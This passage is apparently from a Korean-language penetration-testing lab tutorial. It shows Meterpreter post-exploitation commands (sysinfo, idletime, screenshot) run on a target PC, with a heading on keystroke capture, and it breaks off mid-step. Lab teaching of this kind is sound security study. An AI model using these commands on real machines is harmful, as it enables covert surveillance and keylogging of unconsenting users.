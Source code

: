 ![4_33](./image4/09.png)

제거가 성공적으로 완료되었다.



### 실습 2) Stdapi Extension - Screenshot & Keyscan

```
meterpreter > sysinfo
```

현재 실행 중인 시스템에 대한 정보를 얻을 수 있다.

```
meterpreter > idletime //대기시간(유휴시간) 확인
meterpreter > screenshot
```

해당 명령어를 통해 공격대상의 유휴시간을 확인하고 공격대상 pc의 스크린샷을 찍을 수 있다. 

- 루트 폴더 여는 방법

→ 루트 계정으로 진입하지 않은 상태에서 다음 코드 입력
